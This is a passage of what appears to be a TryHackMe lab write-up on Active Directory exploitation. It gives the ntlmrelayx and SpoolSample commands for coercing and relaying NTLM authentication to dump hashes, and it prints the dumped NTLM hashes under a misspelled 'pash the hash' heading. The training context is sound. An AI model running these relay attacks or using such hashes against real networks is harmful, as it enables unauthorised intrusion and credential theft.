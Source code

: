 ~~~bash

Nmap done: 2 IP addresses (2 hosts up) scanned in 3.92 seconds
~~~

We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!

# Exploiting Authentication Relays

Note: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed. For this reason, the previous task already provided you with the permissions required to continue. However, understanding authentication relays and how to force them is essential for AD exploitation. As such, the steps to perform such an attack are provided below. You can decide to give it a go, but a callback is not guaranteed. If it does not work, move on to the next task and perhaps explore this again at the end of your room journey.

We will be using SpoolSample to exploit the authentication relay. It is a C# exploit but has already been compiled for you and stored in the C:\Tools\ directory on THMWRK1.  We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox and then Impacket's ntlmrelayx.py to relay the authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2.

The first step is to set up the NTLM relay. On our AttackBox, we can use the following:
~~~bash
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
~~~

If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we should specify the IP instead. With the relay listening, we can now coerce THMSERVER2 to authenticate to us. In an SSH terminal on THMWRK1, execute the following:
~~~bash
SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
~~~

Your attacker IP should correspond with your tunX interface for the network. If all goes well, you should have received an authentication attempt and a relay to THMSERVER1.
~~~bash
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
~~~

This output resembles what would happen if you used the -c 'whoami /all' command. However by specifying no command, you should now have performed a hashdump. These credentials can now be used to get a shell on the host!

# Exploiting (pash the hash)

We dumped the hash

ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
[+] NewStyle hashes is: True
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
[+] NewStyle hashes is: True
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
[+] NewStyle hashes is: True
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
